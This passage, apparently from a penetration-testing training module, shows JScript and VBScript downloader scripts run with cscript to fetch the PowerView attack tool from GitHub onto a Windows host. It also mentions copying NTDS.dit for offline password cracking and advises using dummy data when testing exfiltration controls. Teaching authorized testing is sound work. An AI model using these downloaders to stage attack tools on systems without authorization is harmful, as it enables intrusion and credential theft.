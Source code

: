 ##
var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");
WinHttpReq.Open("GET", WScript.Arguments(0), /*async=*/false);
WinHttpReq.Send();
BinStream = new ActiveXObject("ADODB.Stream");
BinStream.Type = 1;
BinStream.Open();
BinStream.Write(WinHttpReq.ResponseBody);
BinStream.SaveToFile(WScript.Arguments(1));
##

It can be executed as follows.

##
PS C:\htb> cscript /nologo wget.js https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView.ps1
##

VBScript
--------

The following VBScript, based on this [post](https://stackoverflow.com/questions/2973136/download-a-file-with-vbs) can be used.

##
dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", WScript.Arguments.Item(0), False
xHttp.Send

with bStrm
    .type = 1
    .open
    .write xHttp.responseBody
    .savetofile WScript.Arguments.Item(1), 2
end with
##

It can be executed as follows.

##
PS C:\htb> cscript /nologo wget.vbs https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView.ps1
##

Protected File Transfers
========================

As penetration testers, we often gain access to highly sensitive data such as user lists, credentials (i.e., downloading the NTDS.dit file for offline password cracking), enumeration data that can contain key information about the organization's network infrastructure, and Active Directory (AD) environment, etc. . Therefore, it is essential to encrypt such information or use encrypted data connections such as SSH, SFTP, and HTTPS. However, it is possible that these options are not available to us and that a different approach is required.

<
Note: Unless specifically requested by a client, we do not recommend exfiltrating data such as Personally Identifiable Information (PII), financial data (i.e., credit card numbers), trade secrets, etc., from a client environment. Rather, if attempting to test Data Loss Prevention controls/egress filtering protections create a file with dummy data that mimics the data that the client is trying to protect.
>

